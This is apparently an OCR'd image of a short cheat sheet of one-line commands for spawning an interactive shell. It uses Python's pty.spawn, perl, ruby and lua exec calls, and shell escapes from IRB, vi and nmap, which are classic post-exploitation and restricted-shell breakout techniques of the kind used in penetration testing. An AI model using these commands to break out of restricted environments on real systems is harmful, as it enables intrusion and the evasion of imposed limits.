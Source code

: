 
**python -c 'import pty; pty.spawn("/bin/sh")'
-------
**echo os.system('/bin/bash')
--------
**/bin/sh -i
--------
**perl —e 'exec "/bin/sh";'
----------
**perl: exec "/bin/sh";
----------
**ruby: exec "/bin/sh"
----------
**lua: os.execute('/bin/sh')
-------------
**(From within IRB)
**exec "/bin/sh"
--------------
**(From within vi)
**:!bash
---------------
**(From within vi)
**:set shell=/bin/bash:shell
---------------
**(From within nmap)
**!sh
